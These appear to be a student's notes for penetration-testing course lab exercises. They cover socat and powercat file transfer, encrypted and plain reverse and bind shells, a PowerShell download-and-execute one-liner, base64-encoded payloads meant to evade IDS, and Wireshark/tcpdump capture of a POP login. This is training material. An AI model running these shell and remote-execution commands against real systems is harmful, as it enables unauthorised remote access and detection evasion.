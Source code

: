 # 4.2.5 exercises
#### Exercises

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Use **socat ** to transfer **powercat.ps1 ** from your Kali machine to your Windows system. Keep the file on your system for use in the next section.
host
`sudo socat TCP4-LISTEN:443,fork file:powercat.ps1`
recipient
`socat TCP4:192.168.119.249:443 file:received_powercat.ps1,create`
![[powercat_received.png]]

2.  Use **socat ** to create an encrypted reverse shell from your Windows system to your Kali machine.
generate the key
`openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt`
combine .key and .crt into .pem
`cat bind_shell.key bind_shell.crt > bind_shell.pem`
create listener using .pem and execute shell
`sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash`
connect 
`socat - OPENSSL:192.168.119.249:443,verify=0`
![[socat_openssl.png]]
# !!SKIPPED QUESTIONS RETURN HERE!!
3.  Create an encrypted bind shell on your Windows system. Try to connect to it from Kali without encryption. Does it still work?
use previously generated .pem
start socat listener
`socat -d -d OPENSSL-LISTEN:443,cert=shell.pem,verify=0 STDOUT`
target windows machine do a callback using socat
`socat OPENSSL:192.168.119.218:443,verify=0 EXEC:/bin/bash`

4.  Make an unencrypted **socat ** bind shell on your Windows system. Connect to the shell using Netcat. Does it work?


# 4.3.9 exercises
#### Exercises

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Use **PowerShell** and **powercat** to create a reverse shell from your Windows system to your Kali machine.
run dot-sourcing script
`. .\powercat.ps1`
or use iex cmdlet
`iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')`
start listener on local machine
`nc -lnvp 9999`
use powershell on remote machine to connect to listener
`powercat -c <IP> -p <PORT> -e cmd.exe`
![[powercat_revshell.png]]
![[root_through_powercat.png]]
2.  Use **PowerShell** and **powercat** to create a bind shell on your Windows system and connect to it from your Kali machine. Can you also use **powercat** to connect to it locally?
create bind shell in powershell with powercat
`powercat -l -p 443 -e cmd.exe`
connect with nc on local machine
`nc -nv <IP> <PORT>`
to connect locally using powercat simply run powercat with -c flag in seperate terminal
`powercat -c 127.0.0.1 -p <PORT> `

3.  Use **powercat** to generate an encoded payload and then have it executed through **powershell**. Have a reverse shell sent to your Kali machine, also create an encoded bind shell on your Windows system and use your Kali machine to connect to it.
generate powercat payload
`powercat -c <IP> -p <PORT> -e cmd.exe -g > reverseshell.ps1`
or encade in base64 to avoid IDS
`powercat -c <IP> -p <PORT> -e cmd.exe -ge > encoded_reverseshell.ps1`
start listener on local machine
`nc -lnvp <PORT>`
start reverse shell by running .ps1 file
`.\reversehell.ps1`
or if encoded, running posershell.exe with -E flag and encoded payload
`powershell.exe -E <ENCODED_PAYLOAD_HERE>`
###### easy copy/paste in powershell
`Get-Content C:\Users\user1\.ssh\id_ed25519.pub | Set-Clipboard`
![[powershell_encoded_revshell.png]]
![[reverse_connection.png]]

# exercises 4.4.6
#### Exercises

_(To be performed on your own Kali machine - Reporting is required for these exercises)_

1.  Use Wireshark to capture network activity while attempting to connect to 10.11.1.217 on port 110 using Netcat, and then attempt to log into it.
setup filter to only capture traffic on port 110
connect to pop server via nc
`nc -nv <IP> 110`
attempt to log into pop server 
`USER student`
`PASS lab`
![[wireshark_handshake2.png]]
2.  Read and understand the output. Where is the three-way handshake happening? Where is the connection closed?
Frame 1, 2, and 3 contain the three-way handshake
![[wireshark_handshake.png]]
frame 13 contains RST, ack which is used to reset/shutdown a connection
![[wireshark_RST.png]]

3.  Follow the TCP stream to read the login attempt.
![[wireshark_response.png]]

4.  Use the display filter to only monitor traffic on port 110.
this can be done one the startup page via the capture filter
![[wireshark_filtering2.png]]
or with the display filter once the capture has begun
![[wireshark_filtering.png]]

5.  Run a new session, this time using the capture filter to only collect traffic on port 110.
see above section for capture filtering

# exercises 4.5.3
_(To be performed on your own Kali machine - Reporting is required for these exercises)_

1.  Use tcpdump to recreate the Wireshark exercise of capturing traffic on port 110.
`sudo tcpdump -i tun0 port 110`
or save to pcap file
`sudo tcpdump -i tun0 port 110 -w sample.pcap`

2.  Use the -X flag to view the content of the packet. If data is truncated, investigate how the -s flag might help.
view contents of .pcap
`sudo tcpdump -nX -r sample.pcap `

truncated packets - from the tcpdump manpage, usage of -s flag:
"Packets truncated because of a limited snapshot are indicated in the output with '''{proto}'', where proto is the name of the protocol level at which the truncation has occurred"
`sudo tcpdump -nX -s 0 -r sample.pcap`

3.  Find all 'SYN', 'ACK', and 'RST' packets in the password_cracking_filtered.pcap file.
`tcpdump -A -n 'tcp[13] &4!=0 or tcp[13] & 2!=0 or tcp[13] & 16!=0' -r password_cracking_ptap.pcap`

4.  An alternative syntax is available in tcpdump where you can use a more user-friendly filter to display only ACK and PSH packets. Explore this syntax in the tcpdump manual by searching for "tcpflags". Come up with an equivalent display filter using this syntax to filter ACK and PSH packets.
`tcpdump -A -n 'tcp[tcpflags] == tcp-push or tcp[tcpflags] == tcp-ack' -r password_cracking_ptap.pcap`
